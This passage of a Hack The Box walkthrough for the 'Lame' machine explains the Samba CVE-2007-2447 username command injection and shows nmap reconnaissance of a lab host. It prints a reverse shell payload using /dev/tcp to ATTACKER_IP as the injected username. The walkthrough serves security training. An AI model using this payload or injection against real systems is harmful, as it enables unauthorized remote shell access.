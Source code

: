 ```yaml
---
layout: default
title:  "Hack The Box Walkthrough: Lame"
date:   2024-01-06 09:00:00 +0000
categories: HTB CTF walkthrough smb samba CVE-2007-2447
---
```



## Introduction
## Samba vulnerability CVE-2007-2447
CVE-2007-2447 is a remote command injection vulnerability in Samba 3.0.0-3.0.25rc3 caused by a lack of input sanitization. It allows remote attackers to run commands by injecting backticked commands into the username parameter. These commands are not sanitized and are appended to a hardcoded call to ```/bin/sh sh -c /etc/samba/scripts/mapscript.sh```. A reverse shell command can be achieved by injecting a payload such as ```/bin/bash -i >& /dev/tcp/ ATTACKER_IP/6666 0>&1``` as the username. The leading ```/``` in the payload is used as a delimiter for the domain field in smbclient.
[CVE-2007-2447 Explained] (https://0x00sec.org/t/cvexplained-cve-2007-2447/22748)

## RECON
The victim machine has the IP: ```10.129.22.206```. The attack machine has the IP: ```10.10.14.212```

Starting with an enumeration of the available port we scan the TCP ports using nmap. We will also scan for all UDP ports. Once these scans are complete, we will run nmap again on the discovered TCP ports using version detection scripts.

* SYN scan (-sS) is the default scan type. It can be performed quickly, scanning thousands of ports per second on a fast network not hampered by restrictive firewalls. It is also relatively unobtrusive and stealthy since it never completes TCP connections.
* When the --min-rate option is given Nmap will do its best to send packets as fast as or faster than the given rate.
* -sV enables version detection. Version detection interrogates those ports to determine more about what is actually running. The nmap-service-probes database contains probes for querying various services and match expressions to recognize and parse responses. Nmap tries to determine the service protocol, the application name, the version number, hostname, device type, the OS family (e.g. Windows, Linux) and other miscellaneous details.
* -sC Performs a script scan using the default set of scripts in the Nmap Scripting Engine (NSE). Some of the scripts in this category are considered intrusive and should not be run against a target network without permission.
* -oN requests that normal output be directed to the given filename.
```bash
┌──(downeg㉿tholia)-[~/htb/boxes/lame]
└─$sudo nmap -sS -p- --min-rate 10000 -oN scans/nmap_tcp 10.129.22.206
Starting Nmap
Nmap scan report for 10.129.22.206
Host is up (0.080s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

┌──(downeg㉿tholia)-[~/htb/boxes/lame]
└─$</span> sudo nmap -sU -p- --min-rate 10000 -oN scans/nmap_udp 10.129.22.206
Starting Nmap
Nmap scan report for 10.129.22.206
Host is up (0.088s latency).
```